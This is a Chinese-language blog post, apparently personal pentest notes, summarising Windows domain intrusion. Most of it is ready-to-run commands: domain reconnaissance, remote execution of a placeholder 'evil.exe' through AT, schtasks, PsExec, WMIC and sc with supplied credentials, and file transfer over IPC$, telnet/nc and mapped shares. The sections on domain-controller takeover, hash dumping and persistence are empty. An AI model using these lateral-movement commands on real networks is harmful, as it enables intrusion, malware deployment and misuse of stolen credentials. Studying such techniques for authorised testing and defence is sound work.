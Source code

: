 ```yaml
---
layout:     post
title:      "Windows 内网渗透总结"
subtitle:   "内网入门基本姿势"
date:       2017-06-09 21:19 +0800
author:     "gsfish"
header-img: "img/post-bg-hacker.jpg"
tags:
    - 渗透
    - 内网
---
```


# 整体思路（持续更新）

![01.png](/img/domain-pentest-note/01.png)

# 0x00 环境判断（DOMAIN / WORKGROUP）

```
net time /domain
net config workstation
systeminfo
ipconfig /all
```

# 0x01 信息收集

```
net view /domain [:XXX]
net user /domain
net group /domain
net accounts /domain
nslookup
dsquery
```

# 0x02 域内

## 域内运行命令

1. 计划任务

    1) AT
        
        copy evil.exe \\[HOST]\c$\windows\temp\evil.exe  # 上传恶意文件
        at \\[HOST] 15:00 c:\windows\temp\evil.exe

    2) SCHTASKS

        schtasks /create /tn boom /tr c:\windows\temp\evil.exe /sc once /st 00:00 /s [HOST] /ru system
        schtasks /run /tn boom /s [HOST]
        schtasks /delete /tn boom /f /s [HOST]  # 清除 boom

2. PsExec

    1) 建立 IPC$ 连接后

        psexec \\[HOST] -c evil.exe

    2) 在 PsExec 的参数中指定账号密码

        psexec.exe \\[HOST] –accepteula -u [USERNAME] -p [PASSWORD] -c evil.exe

3. WMIC 远程运行命令

        copy evil.exe \\[HOST]\c$\windows\temp\evil.exe
        wmic /node:[HOST] /user:administrator /p [PASSWORD] process call create c:\windows\temp\evil.exe

4. SC 创建服务执行

    1) 系统权限(其中test为服务名)

        sc \\[HOST] create boom binpath= c:\evil.exe
        sc \\[HOST] start boom
        sc \\[HOST] delete boom

    2) 指定用户权限启动

        sc \\[HOST] create boom binpath= c:\evil.exe obj= [DOMAIN]\administrator passwrod= [PASSWORD]
        sc \\[HOST] start boom

## 域内的文件操作

1. 利用 IPC$

        net use \\[HOST]\IPC$
        copy evil.exe \\[HOST]\C$\

2. 利用 Telnet

    服务端：

        nc -lvp 23 < nc.exe

    下载端：

        telnet [HOST] -f c:\nc.exe

3. 利用文件共享

        net use x: \\[HOST]\[SHARE] [PASSWORD] /user:[DOMAIN]\[USERNAME]

# 0x03 拿下域控

// TODO

# 0x04 Hash dump

// TODO

# 0x05 权限维持

// TODO

---

> 参考资料：  
> [域渗透基础简单信息收集（基础篇）](https://xianzhi.aliyun.com/forum/read/805.html)  
> [windows内网渗透杂谈](https://bl4ck.in/penetration/2017/03/20/windows内网渗透杂谈.html)
